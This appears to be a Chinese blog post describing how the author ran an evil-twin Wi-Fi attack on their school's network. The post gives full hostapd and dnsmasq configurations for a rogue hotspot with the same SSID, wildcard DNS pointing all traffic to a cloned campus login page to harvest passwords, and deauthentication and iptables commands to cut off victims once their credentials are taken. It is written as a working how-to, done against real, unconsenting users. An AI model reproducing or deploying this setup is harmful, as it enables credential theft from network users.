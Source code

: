 title:WIFI 热点欺骗
Date: 2014-11-23 15:21
Modified: 2014-11-23 15:21
Tags: WIFI, Linux
Slug: real-attack-show-wifi-vulnerability
Summary:
_很久以前看过一篇关于WIFI脆弱性的[介绍](http://fex.baidu.com/blog/2014/04/traffic-hijack/)(找了好久终于被我找到了)，其中有一部分讲的是由于本身协议的弱点，相同 ssid 的热点会被合并为同一个，至于用户最终连接哪个热点取决于他所能接收到的信号强度。不知道此刻各位看官脑洞有没有大开？_

_俗话说杀生不如宰熟，所以直接就向学校 ap 下手了。提前声明几个全局变量：_

```
ssid: NICESHOT
os： ubuntu
```


###简单部署
####用 hostapd 建立热点
>“**hostapd** is a user space daemon for access point and authentication servers. “

```
sudo apt-get install hostapd
```
更改配置文件 _/etc/hostapd-hotspot.conf_ 如下：
```
# WiFi Hotspot
interface=wlan0
driver=nl80211
#Access Point
ssid=NICESHOT
hw_mode=g
# WiFi Channel:
channel=1
#macaddr_acl=0
auth_algs=1
wmm_enabled=0
#ignore_broadcast_ssid=0
#wpa=3
#wpa_passphrase=1
#wpa_key_mgmt=WPA-PSK
#wpa_pairwise=TKIP
#rsn_pairwise=CCMP
ctrl_interface=/var/run/hostapd
```
可能还需要更改 _/etc/default/hostapd_ 为
```
DAEMON_CONF=/etc/hostapd/hostapd.conf
```
然后测试配置文件`hostapd -d /etc/hostapd-hotspot.conf`,  没有什么问题的话就可以启动服务了
```
service hostapd start
```
####微型 DNCP & DNS -- dnsmasq
>Dnsmasq is a free software DNS forwarder and DHCP server for small networks. It is considered to be easily configured, with low system resource usage.

```
sudo apt-get install dnsmasq
```
更改配置文件 _/etc/dnsmasq.conf_
```
log-facility=/var/log/dnsmasq.log
address=/#/192.168.1.1
interface=wlan0                                                                             
dhcp-range=192.168.1.20,192.168.1.254,12h
no-resolv 
```
然后比较关键的是配置 **wlan0** IP 地址 `ifconfig wlan0 192.168.1.1`。

稍微总结一下，到此为止，我们做了这么些事情：创建 WFIFI 热点，监听 **wlan0** 口，然后通过配置DHCP给所有连接到此 AP 的终端分配IP地址。另外上面的这条配置`address=/#/192.168.1.1`，将所有地址解析到我们的电脑 IP。
####搭建服务器
此处就不详说了，最终达到的效果是访问 `192.168.1.1`是我们的钓鱼网站。

因为校园网需要登陆，也就是说连接校园 AP 之后将所有 HTTP 页面跳转到网关登陆界面。所以我们也部署一个一模一样的登陆网关，然后所有连接的用户跟往常一样登陆网关，神不知鬼不觉得就把账号密码泄露过来了。稍后我会分享此处的简单代码 DEMO 到 GitHub。
###进阶
当然不能停止在这么简陋的东西上面，我们需要更进一步。
####粗暴的强制下线
毕竟我们只有一个无线网卡，用作 AP 之后就不能接入其他网络了，环境也不允许拉一根网线，用户登录网关之后根本没办法继续上网，很快你的伪 AP 就会被发现。所以我们强制所有登录网关，也就是被我们窃取密码的用户离线。
```
hostapd_cli deauthenticate 38:bc:1a:88:12:61                                                     
iptables -A INPUT -m mac --mac-source 38:bc:1a:88:12:61 -j DROP
```
第一句强制用户离线，之前在配置 hostapd 的时，这句就是为了达到这个目的 `ctrl_interface=/var/run/hostapd`，第二句将所有该设备的请求丢弃。这就是当一个人丧失所有利用价值之后的下场！
####配置更为合理的 iptables（还没有实现）
当然，前提是我们自己的电脑还可以通过其他口，比如 _eth0_，访问正常网络。

通过配置合理强大的 **iptables**,精心布局，我们不仅仅获取网关密码这么简单的并且还需要特别严格苛刻的场景的蛋糕。拭目以待。。。
###思考
###后记
####伤敌一百，自损三千
因为自己的装备跟技术很挫，在配置之前那些东西的时候碰到了一些问题，险些出师未捷身先死。

在 ubuntu 下，`service networking restart`,然后你就各种问题爽翻天
- 现在，至少目前为止插上网线之后还需要 `ifup eth0` 才能通过有线上网
- 现在，至少目前为止我连接 WIFI 的时候需要这么做（运气好的话差不多能连接上）
```
ifup wlan0   #up the wlan port 
iwlist wlan0 scan #list availabel wifi ssid
iwconfig wlan0 essid "NICESHOT"  #no password
iwconfig wlan0 ssid "NICESHOT" key password   #with password
dhcpclient wlan0   #get ip via dhcp 
```
- 电脑里面出现了奇怪的端口:wlan0:avahi
- 系统自带的 network-manager 罢工了
- 其他未知错误待续
